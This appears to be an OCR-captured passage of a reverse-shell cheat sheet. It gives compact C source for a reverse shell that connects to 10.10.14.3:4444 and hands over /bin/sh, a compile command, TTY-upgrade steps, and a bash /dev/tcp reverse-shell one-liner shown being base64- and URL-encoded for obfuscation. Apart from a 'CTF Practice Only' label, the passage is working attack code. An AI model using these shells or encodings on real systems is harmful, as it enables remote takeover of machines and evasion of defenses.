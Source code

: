 ***

### XIII. 🧠 C Reverse Shell (Compact)

```c
#include <stdio.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
int main(){
 int s=socket(AF_INET,SOCK_STREAM,0);
 struct sockaddr_in sa; sa.sin_family=AF_INET; sa.sin_port=htons(4444);
 sa.sin_addr.s_addr=inet_addr("10.10.14.3");
 connect(s,(struct sockaddr *)&sa,sizeof(sa));
 dup2(s,0); dup2(s,1); dup2(s,2);
 execl("/bin/sh","sh",NULL);
}
```

Compile:

```bash
gcc shell.c -o shell
```

***

### XIV. ⚡ Upgrade TTY After Shell

#### 🧠 Linux

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
reset
```

#### 🧠 Windows (via PowerShell)

```powershell
[Console]::OutputEncoding = [Text.UTF8Encoding]::UTF8
```

***

### XV. 🧱 Obfuscation & Encoding (CTF Practice Only)

```bash
# Base64 encode
echo "bash -i >& /dev/tcp/10.10.14.3/4444 0>&1" | base64

# URL encode (Burp or Python)
python3 -c "import urllib.parse;print(urllib.parse.quote('bash -i >& /dev/tcp/10.10.14.3/4444 0>&1'))"
```
